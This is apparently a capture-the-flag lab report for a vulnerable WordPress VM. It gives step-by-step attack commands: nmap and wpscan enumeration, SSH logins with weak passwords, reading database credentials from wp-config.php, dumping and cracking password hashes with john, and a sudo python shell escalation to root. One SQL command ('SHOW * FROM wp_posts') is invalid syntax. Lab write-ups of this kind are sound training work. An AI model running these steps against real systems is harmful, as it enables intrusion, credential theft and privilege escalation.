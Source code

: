 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
```

![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp | SSH | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp | http | Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp | rpcbind | 2-4 (RPC #1000000)
  - Port 139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - Port 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - Open/Unfiltered Ports 22 & 80
  
  ![Target-1-Scan](/Target-1-Screenshots/NMAP-Target-1-Scan.png)
 
  - WordPress Enumeration
  
  ![Enumerated-Users](/Target-1-Screenshots/Enumerated-Users.png)
 
  - Weak User Credentials
  
   ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
   
  - Misconfigured User Privileges on Target System
  
   ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
   
  - Brute Force Attack
  
    ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)

  - Privilege Escalation (Python Library Hijacking)
    ![Privilege-Escalation](/Target-1-Screenshots/Privilege-Escalation.png)


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862428d}
    - **Exploit Used**
      - Step 1: WordPress User Enumeration
        - ` wpscan --url http://192.168.1.110/wordpress --enumerate vp,u `
         ![WPScan-VPs-&-Users](/Target-1-Screenshots/WPScan-VPs-&-Users.png)
 
      - Step 2: SSH Login Using Weak Login Credentials
        - ` ssh michael@192.168.1.110, password: michael `
        ![SSH-Login](/Target-1-Screenshots/SSH-Login.png)
      - Step 3: File Directory Search
        - ` find . -iname "*flag1*" `
        ![Flag-1](/Target-1-Screenshots/Flag-1.png)
        
    
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Step 1: File Enumeration
        - ` ls -la /var/www `
      - Step 2: Misconfigured File Privileges
        - ` cat /var/www/flag2.txt `
      ![Flag-2](/Target-1-Screenshots/Flag-2.png)

  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Step 1: Misconfigured File Privileges
        - ` nano /var/www/html/wordpress/wp-config.php `
        ![Finding-wp-config](/Target-1-Screenshots/Finding-wp-config-PHP-file.png)
      - Step 2: MySQL Login
        - ` mysql --host=localhost --user=root --password=R@v3nSecurity `
        ![SQL-Login](/Target-1-Screenshots/MySQL-Login.png)
      - Step 3: Database Traversal & Table Enumeration
        - ` SHOW * FROM wp_posts; `
        ![Flag-3](/Target-1-Screenshots/Flag-3.png)
      

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

      - Step 1: MySQL WordPress Login Credential Enumeration
        ` SELECT user_login,user_pass FROM wp_users; ` 
        ![MySQL-Credentials](/Target-1-Screenshots/MySQL-Credentials.png)
      - Step 2: Brute Force
        - ` john --wordlist=rockyou.txt wp_hashes.txt `
        ![Cracked-Passwords](/Target-1-Screenshots/Cracked-Passwords.png)
      - Step 3: SSH Login
        - ` ssh steven@192.168.1.110, password pink84 `
        ![Secure-User-Shell](/Target-1-Screenshots/Secure-User-Shell.png)
      - Step 4: Sudo Privileges Check
        - ` sudo -l `
        ![Sudo-Privileges-Check](/Target-1-Screenshots/Sudo-Privileges-Check.png)
      - Step 5: Privilege Escalation with Python Shell Spawn
        - ` sudo python -c 'import pty;pty.spawn("/bin/bash")' `
        
        ![Privilege-Escalation](/Target-1-Screenshots/Privilege Escalation.png)
      -  Flag 4:
      
        ![Flag-4](/Target-1-Screenshots/Flag-4.png)
